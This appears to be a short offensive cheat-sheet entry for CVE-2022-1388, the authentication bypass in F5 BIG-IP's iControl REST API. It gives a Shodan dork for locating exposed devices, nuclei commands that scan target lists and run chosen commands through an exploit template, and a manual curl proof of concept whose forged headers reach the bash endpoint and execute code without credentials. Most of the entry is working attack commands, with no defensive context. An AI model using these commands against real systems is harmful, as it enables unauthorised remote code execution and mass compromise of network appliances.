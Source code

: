### Authentication bypass vulnerability in the REST component of BIG-IP’s iControl API

#### Tag
```BIG-IP```

#### Dorks
```
Shodan - http.title:"BIG-IP&reg;-+Redirect" +"Server"
```

#### Nuclei Scanning
```
nuclei -l targets.txt -t ~/.local/nuclei-templates/http/cves/2022/CVE-2022-1388.yaml -o vulnerable-targets.txt
```

#### Exploit-POC Nuclei Scanning 
[Template Github](https://github.com/MrCl0wnLab/Nuclei-Template-Exploit-F5-BIG-IP-iControl-REST-Auth-Bypass-RCE-Command-Parameter)  
```
nuclei -l targets.txt -t exploit-CVE-2022-1388.yaml -vv -var CMD="uname -a" -o exploit-poc.txt  
(or)  
nuclei -l targets.txt -t exploit-CVE-2022-1388.yaml -vv -var CMD=commands.txt -o exploit-poc.txt
```

#### POC Manual
```
curl -su admin \ 
-H "Host: localhost:8100" \ 
-H "Content-Type: application/json" \ 
-H "Connection: keep-alive, X-F5-Auth-Token X-F5-Auth-Token: a" \ 
-H "Authorization: Basic YWRtaW46" \
 http://<target-ip>/mgmt/tm/util/bash \
-d '{"command":"run","utilCmdArgs":"-c id"}'
```
